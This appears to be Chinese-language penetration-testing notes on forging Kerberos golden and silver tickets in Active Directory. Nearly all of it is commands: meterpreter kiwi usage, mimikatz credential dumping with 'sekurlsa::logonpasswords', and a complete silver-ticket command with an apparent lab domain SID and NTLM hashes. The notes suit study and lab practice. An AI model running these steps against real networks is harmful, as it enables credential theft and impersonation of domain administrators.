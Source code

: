 ```
使用meterpreter中的kiwi模块：
	load kiwi
	
创建票据
	命令格式：golden_ticket_create -d <域名> -u <任意用户名> -s <Domain SID> -k <krbtgt NTLM Hash> -t <ticket本地存储路径如:/tmp/krbtgt.ticket>

```

### 白银票据

>  特点

- 无需与KDC交互

- 需要目标服务器的NTLM hash---服务类型 

#### 信息收集

```
域名 net time /domain    ipconfig /all 
域的SID值(去掉最后的500)  wmic useraccount get name,sid
目标机器的FQDN  net time /domain  就是hostname+域名 /target:\\WIN-75NA0949GFB.god.org
可利用的服务CIFS(磁盘共享的服务) /service:CIFS   
要伪造的用户名  /user:Administrator
服务账号的ntlm hash(Primary Username : WIN-75NA0949GFB$带$的hash，不是admin的) /rc4:08d93ddf15a6309a46daaa7ec8565296
#生成了mimikatz.log文件(域控主机执行)
mimikatz.exe log "privilege::debug" "sekurlsa::logonpasswords" exit

/user: 要伪造的目标用户/计算机 Target Account/Computer to Impersonate
/ptt: Optional (Will Inject Ticket or you can do with Rubeus)
/service:cifs   服务参数为cifs
/domain    参数为域名
/sid       参数为域sid (whoami /user)
/target    The FDQN 指定域内的机器  /target:WIN-75NA0949GFB.god.org
/rc4       服务账号的ntml hash
/user      需要伪造的用户名  NTLM Hash of User Password/Computer Password
```

#### 获取服务器NTLM hash

```
服务器服务NTLM hash: 计算机名+$

mimikatz privilege::debug 
mimikatz sekurlsa::logonpasswords
```

#### 伪造过程

```
格式：mimikatz kerberos::golden /domain:<域名> /sid:<域 SID> /target:<目标服务器FQDN> /service:<服务类型> /rc4:<服务账号NTLM Hash> /user:<需要伪造的用户名> /ptt

FQDN：计算机名+域名
域控制：OWA2010CN-God.god.org


OWA2010CN-GOD$:2c86f8495f015ed909fa0c158da87914

用普通用户执行：
格式：mimikatz kerberos::golden /domain:god.org /sid:S-1-5-21-1218902331-2157346161-1782232778 /target:OWA2010CN-God.god.org /service:cifs /rc4:2c86f8495f015ed909fa0c158da87914 /user:administrator /ptt
```
